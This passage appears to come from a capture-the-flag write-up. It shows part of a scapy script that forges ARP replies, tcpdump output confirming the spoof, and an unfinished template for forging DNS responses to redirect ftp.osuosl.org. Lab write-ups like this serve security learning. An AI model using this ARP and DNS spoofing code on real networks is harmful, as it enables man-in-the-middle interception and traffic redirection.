 ```
        arp_response.psrc = packet[ARP].pdst 
        arp_response.hwdst = packet[Ether].src
        arp_response.pdst = packet[ARP].psrc

        response = ether_resp/arp_response

        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0)

if __name__ == "__main__":
    main()
```

After successfully spoofing the ARP response, we can see this in tcpdump:
```
00:45:49.657393 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
00:45:49.673549 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:07, length 28
00:45:49.689886 IP 10.6.6.35.12996 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
```

So, next we need to pretend we're a DNS server and point the FQDN `ftp.osuosl.org` to ourselves. Taking a look at `dns_resp.py`:

```
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.1.10"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src="00:00:00:00:00:00", dst="00:00:00:00:00:00")   # need to replace mac addresses
    ip  = IP(dst="0.0.0.0", src="0.0.0.0")                          # need to replace IP addresses
    udp = UDP(dport=99999, sport=99999)                             # need to replace ports
    dns = DNS(
        # MISSING DNS RESPONSE LAYER VALUES 
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )

    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)

```
